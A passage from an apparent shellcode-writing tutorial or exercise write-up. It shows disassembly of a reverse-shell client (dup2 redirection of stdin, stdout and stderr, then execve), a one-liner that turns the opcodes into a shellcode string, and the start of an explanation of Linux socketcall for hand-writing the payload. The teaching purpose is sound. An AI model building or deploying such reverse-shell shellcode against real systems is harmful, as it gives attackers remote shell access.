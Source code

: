 ```
 70c:	e8 8f fd ff ff       	call   4a0 <dup2@plt>
 711:	83 c4 10             	add    esp,0x10
 714:	83 ec 08             	sub    esp,0x8
 717:	6a 01                	push   0x1
 719:	ff 75 f4             	push   DWORD PTR [ebp-0xc]
 71c:	e8 7f fd ff ff       	call   4a0 <dup2@plt>
 721:	83 c4 10             	add    esp,0x10
 724:	83 ec 08             	sub    esp,0x8
 727:	6a 02                	push   0x2
 729:	ff 75 f4             	push   DWORD PTR [ebp-0xc]
 72c:	e8 6f fd ff ff       	call   4a0 <dup2@plt>
 731:	83 c4 10             	add    esp,0x10
 734:	83 ec 04             	sub    esp,0x4
 737:	6a 00                	push   0x0
 739:	6a 00                	push   0x0
 73b:	8d 83 ea e7 ff ff    	lea    eax,[ebx-0x1816]
 741:	50                   	push   eax
 742:	e8 89 fd ff ff       	call   4d0 <execve@plt>
 747:	83 c4 10             	add    esp,0x10
 74a:	b8 00 00 00 00       	mov    eax,0x0
 74f:	8d 65 f8             	lea    esp,[ebp-0x8]
 752:	59                   	pop    ecx
 753:	5b                   	pop    ebx
 754:	5d                   	pop    ebp
 755:	8d 61 fc             	lea    esp,[ecx-0x4]
 758:	c3                   	ret    
 759:	66 90                	xchg   ax,ax
 75b:	66 90                	xchg   ax,ax
 75d:	66 90                	xchg   ax,ax
 75f:	90                   	nop
```

We can extract the opcodes using this one-liner:

    objdump -d ./client|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

Piping this into *wc -c* shows how many bytes this shellcode has:

    865

In order to reduce the size of this shellcode we must code it by hand.

## Handcrafted shellcode

My idea here is not to generate a small shellcode, but a comprehensible one.

In order to write the shellcode by hand I made good use of both *strace* and *gdb-peda*. The first one was very useful for detecting silly mistakes related the order the parameters were being pushed and things alike. The second one allowed me to debug closely, checking the stack and registers at the same time.

Before starting to write into a blank (actually it is black but anyway) screen, I had to understand how socket related syscalls are used in x86. I must confess I was expecting a few syscalls like *socket*, *connect* and so on. For my surprise, all of these are included in one unique syscall named [socketcall](http://man7.org/linux/man-pages/man2/socketcall.2.html). 
